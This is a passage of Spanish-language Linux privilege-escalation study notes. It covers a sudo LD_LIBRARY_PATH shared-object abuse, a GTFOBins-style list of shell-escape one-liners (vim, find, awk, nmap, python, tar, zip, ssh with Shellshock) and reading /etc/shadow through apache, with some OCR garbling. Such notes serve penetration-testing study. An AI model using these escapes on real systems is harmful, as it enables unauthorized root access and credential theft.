    $ gcc -o lib\_a\_subs.so -shared -fPIC foo.c

2. Ejecución:

   $ sudo LD\_LIBRARY\_PATH=. XXX \# id uid=0\(root\) gid=0\(root\) groups=0\(root\)

**Shell Escape Sequences y abuso de funcionalidades**

Web de referencia: GTFOBins [https://gtfobins.github.io](https://gtfobins.github.io/)

Algunos programas nos permiten "escapar" a la shell o abusar de ciertas funcionalidades:

* vim/vi/man/less/more/GDB/iftop !sh
* ftp !
* find find /bin -name nano -exec /bin/sh ;
* awk awk 'BEGIN {system\("/bin/sh"\)}'
* nmap echo "os.execute\('/bin/sh'\)" &gt; shell.nse nmap --script=shell.nse
* nano nano -sh /bin/sh sh ^T
* Python python -c 'import pty; pty.spawn\("/bin/sh"\)' python -c 'import os; os.system\("/bin/bash"\)'
* except except spawn
* gdb gdb \(gdb\)!/bin/bash
* Journalctl

  !/bin/sh

* Mysql

  mysql&gt; ! /bin/bash

* ssh

  ssh user@XX -t "/bin/sh"

  ssh user@XX -t "bash --noprofile"

  ssh user@XX -t "\(\) { :; }; /bin/bash" \(shellshock\)

* zip

  zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"

* tar

  tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash

* apache

  Apache -f utiliza la directiva del fichero de configuración al arrancar Pero..... sudo apache2 -f y si hacemos sudo apache2 -f /etc/shadow

**Shared objects**

Los ficheros "shared objects" \(so\) son la equivalencia linuxera a los ficheros dll de Windows

* Contienen "funciones" reutilizables
* Las funciones exportadas \(symbols\) se exportan via tabla
* Los objetos son cargadas dentro del contexto de un proceso existente

Los métodos de linking:

1. Static linking
2. Dynamic Linking
